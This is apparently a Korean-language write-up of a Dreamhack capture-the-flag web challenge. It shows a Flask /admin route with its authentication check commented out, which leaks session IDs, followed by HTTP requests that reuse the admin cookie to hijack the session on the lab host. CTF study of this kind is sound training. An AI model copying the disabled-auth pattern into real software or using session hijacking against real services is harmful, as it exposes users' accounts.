 ``` python
@app.route('/admin')
def admin():
    # developer's note: review below commented code and uncomment it (TODO)

    #session_id = request.cookies.get('sessionid', None)
    #username = session_storage[session_id]
    #if username != 'admin':
    #    return render_template('index.html')

    return session_storage
```
인증 코드가 주석처리 되어 있으며 `session_storage`를 반환한다. `/admin` 엔드포인트에 접근만 해도 `session_storage`의 데이터를 획득할 수 있다.  
## Exploit
### Strategy
`/admin` 엔드포인트에 접근하여 `session_starge` 정보를 획득하고, `admin`의 `session_id`로 쿠기를 조작하면 `admin`으로 판단되어 FLAG를 획득할 수 있다.  
### Exploitation Steps
``` http
GET /admin HTTP/1.1
Host: host1.dreamhack.games:24168
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:24168/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ko-KR;q=0.8,ko;q=0.7
Cookie: sessionid=e4d58c90fce946644216d0519ef9896f86d9dde84c38b7acfff460664160cd75
Connection: keep-alive
```
``` http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.1
Date: Thu, 04 Sep 2025 02:07:58 GMT
Content-Type: application/json
Content-Length: 152
Connection: close

{"a5597821f352aa8046dd4d30ebeb0b5309c086aa1fdb52f8284db980d69be487":"admin","e4d58c90fce946644216d0519ef9896f86d9dde84c38b7acfff460664160cd75":"guest"}
```
`admin`의 `session_id`를 알아냈다.
### Poc(Poof of Concept)
``` http
GET / HTTP/1.1
Host: host1.dreamhack.games:24168
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host1.dreamhack.games:24168/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ko-KR;q=0.8,ko;q=0.7
Cookie: sessionid=a5597821f352aa8046dd4d30ebeb0b5309c086aa1fdb52f8284db980d69be487
Connection: keep-alive
```
``` html
HTTP/1.1 200 OK
```